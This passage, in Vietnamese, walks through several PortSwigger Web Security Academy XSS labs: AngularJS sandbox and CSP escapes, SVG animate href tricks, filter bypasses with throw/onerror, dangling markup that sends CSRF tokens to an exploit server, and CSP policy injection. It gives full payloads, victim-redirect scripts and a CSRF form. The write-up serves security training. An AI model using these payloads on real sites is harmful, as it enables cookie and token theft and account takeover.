        <url>/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
        ```
        
- Ở đây, trong lý thuyết có nhắc đến cách vượt qua kiểm tra ký tự đặc biệt của sandbox bằng cách dùng `toString().constructor.prototype.charAt=[].join` . Sau đó, thì thực hiện truyền lệnh `toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)` sau `orderBy` để lệnh có thể chạy được và tạo thành chuỗi `alert(1)`
- Thực hiện gửi URL và hoàn thành giải lab
    
    
    

# **Lab: Reflected XSS with AngularJS sandbox escape and CSP**

[Lab: Reflected XSS with AngularJS sandbox escape and CSP | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp)

- Em thay đổi biểu thức sau orderby để giảm số ký tự nhờ tham khảo bài viết này [AngularJS CSP bypass in 56 characters | PortSwigger Research](https://portswigger.net/research/angularjs-csp-bypass-in-56-characters)
- Điều hướng đến chức năng `Search`
- Tại đây, quan sát thấy web dùng angularjs
    - POC
        
        
        
- Thực hiện truyền payload sau, tuy nhiên bị chặn vì quá 80 ký tự
    - Payload
        
        ```jsx
        <input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
        ```
        
    - POC
        
        
        
- Payload trên là payload basic theo lý thuyết: vì ngoài sự kiện của js, angular có những sự kiện riêng. Trong mỗi sự kiện thì lại có một object đặc biệt là `$event` mà đối tượng này có property mà property cuối cùng luôn là `window` thứ mà sandbox không cho chúng ta chạm đến. Để có thể chạm đến window, chúng ta cần gọi `path` tuy nhiên thì với browser mới sẽ chỉ còn `composedPath` . Tiếp đến, cần tìm câu lệnh ngắn hơn để truyền vào sau orderBy có thể tham khảo trong bài research
- Cuối cùng chúng ta ra được payload sau
    - Payload
        
        ```jsx
        <input autofocus ng-focus=$event.composedPath()|orderBy:'(y=alert)(1)'>
        ```
        
- Tuy nhiên, để không cần dùng autofocus, chúng ta có thể thêm id và gửi link chứa hash⇒ tự động alert
    - Payload
        
        ```jsx
        <input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(1)'>
        ```
        
    - URL
        
        ```jsx
        <lab-url>/?search=%3Cinput+id%3Dx+ng-focus%3D%24event.composedPath%28%29%7CorderBy%3A%27%28y%3Dalert%29%281%29%27%3E%23x
        ```
        
- Thực hiện dùng exploit server gửi link cho victim
    - Exploit server
        - Head
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <script>
            location="<url-lab>/?search=%3Cinput+id%3Dx+ng-focus%3D%24event.composedPath()|orderBy%3A%27(y%3Dalert)(document.cookie)%27%3E#x"
            </script>
            ```
            
    - POC
        
        
        
- Thực hiện gửi cho victim. Hoàn thành giải lab
    - POC
        
        
        

# **Lab: Reflected XSS with event handlers and `href` attributes blocked**

[Lab: Reflected XSS with event handlers and href attributes blocked | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

- Thực hiện điều hướng đến chức năng `Search` . Quan sát thấy ở đây có cơ chế chặn các thẻ  event, tag ngoại trừ `<svg>` , `<a>` . Tuy nhiên vì các thẻ event bị chặn cũng như attribute `href` của `a` cũng bị chặn nên chúng ta không thể khai xss ở bài này một cách thường được
    - POC
        
        
        
- Tuy nhiên vì thẻ `<svg>` được phép cùng các thẻ `<animate>` chúng ta có thể set value cho thuộc tính `href` bằng payload sau:
    - Payload
        
        ```jsx
        <svg><a><animate attributeName="href" from="javascript:alert(1)" to="javascript:alert(1)"  /><text x="20" y="20">click me</text></a></svg>
        ```
        
- Quan sát khi gửi payload đi thì alert thành công. Hoàn thành giải lab
    
    
    

# **Lab: Reflected XSS in a JavaScript URL with some characters blocked**

[Lab: Reflected XSS in a JavaScript URL with some characters blocked | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

- Em xem solution chỗ tạo ra alert ạ
- Thực hiện chọn một bài post bất kỳ. Thực hiện view source tại trang xem sản phẩm thì thấy đường link quay lại trang chủ lấy input là path và đẩy vào trong fetch ⇒ có thể escape
    - POC
        
        
        
- Tuy nhiên, chỉ khi thực sự load được trang web thì path của chúng ta mới đẩy vào câu lệnh js này tức là postId cần phải hợp lệ nhưng cũng phải chứa payload (1 postId không hợp lệ). Vì cả path được đẩy vào fetch nên ta có thể truyền payload thêm bằng cách thêm một param khác ⇒ vừa lấy được postId đúng vừa truyền được payload
- Như vậy, câu lệnh ban đầu sẽ như sau:
    - Payload
        
        ```jsx
        5&a'}),
        ```
        
- Sau đó chúng ta cần phải tạo ra một lệnh alert, nhưng mà khi truyền dấu `()` thì code xử lý xóa dấu này ⇒ dùng cách trong lý thuyết nhắc đến là throw. Ngoài ra thì dấu trắng cũng bị encode thành dấu `+` nên ta sẽ dùng `/**/` thay thế khoảng trắng
    - Dấu `+` bị encode
        
        
        
    - Payload đúng
        
        ```jsx
        5&a'}),x=x=>{throw/**/onerror=alert,1},toString=x,window+'abc',{x:'a
        ```
        
- Giải thích payload như sau:
    - Mọi thứ trong js đều là hàm vì vậy ta có thể gán biến x sau:
        
        ```jsx
        x=x=>{throw/**/onerror=alert,1}
        ```
        
    - Sau đó, để gọi `function x` chúng ta không thể dùng `x()` được vì dấu `()` bị xóa ⇒ cần gọi hàm kiểu magic tự động gọi như là `toString` ⇒ overwrite bằng cách sau:
        
        ```jsx
        toString=x
        ```
        
    - Tiếp theo, để gọi `toString` chúng ta chỉ cần dùng lệnh sau là tự động gọi
        
        ```jsx
        window+'abc'
        ```
        
    - Sau đó, để tránh lệnh bị lỗi mà không chạy được, cần nối tiếp phần đóng ngoặc như sau:
        
        ```jsx
        {x:'a
        ```
        
- Thực hiện gửi payload, nhấn vào `Back to blog` và alert thành công. Hoàn thành giải lab
    - POC
        
        
        
        
        

# **Lab: Reflected XSS protected by very strict CSP, with dangling markup attack**

[Lab: Reflected XSS protected by very strict CSP, with dangling markup attack | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)

- Thực hiện login vào tài khoản `wiener:peter`
- Điều hướng đến chức năng `My account > Update email`
    
    
    
- Quan sát khi inspect thì thấy trường email được reflect
    
    
    
- Thực hiện escape thì các dấu reflect không bị encode. Tuy nhiên thì không thể gọi được một url từ ngoài do csp (img-src 'self’)
    - POC
        - Payload khi được render không bị encode
            
            
            
        - CSP
            
            
            
- Tuy nhiên, với nhưng thẻ html và người dùng click vào vẫn có thể truy cập ⇒ sử dụng anchor để user click đến một link và lấy được `csrf` token (ở đây không lấy được cookie một là script inline không chạy được do csp ngoài ra do cờ `Secure only` đã được bật nên không lấy được cookie)
- Thực hiện chèn payload sau, nhận thấy khi tự click vào thì csrf token trả về exploit server
    - Payload
        
        ```jsx
        a1@a.com"><button formaction="https://exploit-0ae300a403a4e83280d30c87012900a9.exploit-server.net/exploit" formmethod="get">Click me</button>
        ```
        
    - Giải thích: vì vị trí chèn được payload là trong form nên có thể thêm button và submit kèm cả csrf token. Tuy nhiên, nếu đơn thuần là form chỉ có POST request gửi đi ⇒ trong log không có csrf token ⇒ dùng `formmethod="get"`
    - Response
        
        
        
    - Khi click thì có csrf trả về exploit server
        
        
        
        
        
- Thực hiệ gửi link sau cho victim để lấy 1 csrf token hợp lệ
    - Payload
        
        ```jsx
        https://0a9600aa047885c1806a035a00870049.web-security-academy.net/my-account?id=wiener&email=a1@a.com%22%3E%3Cbutton%20formaction=%22https://exploit-0ae300a403a4e83280d30c87012900a9.exploit-server.net/exploit%22%20formmethod=%22get%22%3EClick%20me%3C/button%3E
        ```
        
    - Exploit server
        - Header
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <script>
            location = '<vuln-web>?email=a11111@a.com"><button formaction="<exploit-server>/exploit" formmethod="get">Click me</button>'
            </script>
            ```
            
        - Full config
            
            
            
- Thực hiện gửi cho victim. Quan sát trong `Access log` của `Exploit server` . Nhận thấy csrf token đã có trong log ⇒ lấy để làm csrf attack (có thể nhận biết request nào của victim gửi nhờ user agent)
    - POC
        
        
        
- Thực hiện truy cập vào chức năng `Update email`. Thực hiện update email. Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `POST /my-account/change-email` . Thực hiện gen form như sau
    - Tạo form
        - Tạo form bằng Burpsuite
            
            
            
        - Thay email [`hacker@evil-user.net`](mailto:hacker@evil-user.net)
            
            
            
        - Thay csrf token của victim
            
            
            
- Copy HTML, gửi cho victim
    - Exploit server
        - Header
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <html>
              <!-- CSRF PoC - generated by Burp Suite Professional -->
              <body>
                <form action="https://0a9600aa047885c1806a035a00870049.web-security-academy.net/my-account/change-email" method="POST">
                  <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
                  <input type="hidden" name="csrf" value="T8UMhMIhqVCsGej2G1isFcEmmFK9vxoc" />
                  <input type="submit" value="Submit request" />
                </form>
                <script>
                  history.pushState('', '', '/');
                  document.forms[0].submit();
                </script>
              </body>
            </html>
            
            ```
            
        - Exploit server config
            
            
            
- Đổi mail victim thành công. Hoàn thành giải lab
    
    
    

# **Lab: Reflected XSS protected by CSP, with CSP bypass**

[Lab: Reflected XSS protected by CSP, with CSP bypass | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass)

- Em đọc ý tưởng của bài Research này chỗ token [Bypassing CSP with policy injection | PortSwigger Research](https://portswigger.net/research/bypassing-csp-with-policy-injection)
- Thực hiện điều hướng đến chức năng `Search`. Trong phần mềm Burpsuite, thực hiện quan sát response của API `GET /?search=` có chứa header `Content-Security-Policy` ngăn không cho load script inline hoặc từ nguồn khác…
    - POC
        
        
        
- Tuy nhiên, khi quan sát ở cuối có đoạn lấy param `token` ⇒ thử truyền thêm như trong bài research quan sát thấy thay đổi được header
    - Payload
        
        ```jsx
        abc; script-src-elem 'none'; script-src-attr 'unsafe-inline'
        ```
        
    - POC
        
        
        
- Thực hiện truyền payload vào tham số `search` đồng thời inject vào header thì alert thành công. Hoàn thành giải lab
    - Payload
        
        ```jsx
        /?search=%3cimg%20src%3d%221%22%20onerror%3d%22alert('This%20will%20be%20allowed')%22%3e&token=abc%3b%20script-src-elem%20'none'%3b%20script-src-attr%20'unsafe-inline'
        ```
        
    - POC
        
        